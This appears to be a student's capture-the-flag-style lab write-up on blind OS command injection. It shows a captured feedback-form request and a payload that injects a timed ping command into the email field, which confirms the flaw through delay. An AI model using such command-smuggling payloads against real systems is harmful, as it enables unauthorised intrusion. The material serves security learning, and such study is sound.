 # Lab - 02

Topic :  ****Blind OS command injection with time delays

Concept:  In Blind OS Injection the output is not shown, so to find the vuln, we use time delays using `sleep` or using `ping` to the local server

End Goal : Finding the parameter vuln to OS command injection

Analysis : 

- It is already said that the vuln is in the feedback form.
- Burp request for the form…

```
POST /feedback/submit HTTP/2
Host: 0a6400b603e88b94814eb13f0019004a.web-security-academy.net
Cookie: session=ImTRvbMoH7mM6pZOAMkG7PH9LUT2Xgp4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 89
Origin: https://0a6400b603e88b94814eb13f0019004a.web-security-academy.net
Referer: https://0a6400b603e88b94814eb13f0019004a.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=C7Svere75Ci3Oa6ZmV2zfXxcSabOEMxt&name=qw&email=qw%40qw.com&subject=qw&message=qwerty
```

- This has the parameters
    - csrf(token) → can’t fuzz
    - name
    - email
    - subject
    - message
- We suffix each of these parameters with `& ping -c 10 127.0.0.1 #`[url encoded]
    - We comment out the rest of the code because we don’t want it to call anything else, it may cause an error.
- We see that the email parameter takes the longest time.
- However 10 pings do it in less than 10 seconds. So we do 11 pings to make it over 10 seconds.
- Final request

```

csrf=RQwe4grZcGJ94oxcdehTvNr0ySryKNpy&name=q&email=qw%40gmail.com%20%26%20ping%20-c%2011%20127.0.0.1%20%23&subject=qw&message=qw
```

- This takes a bit more than 10 seconds and our job is done.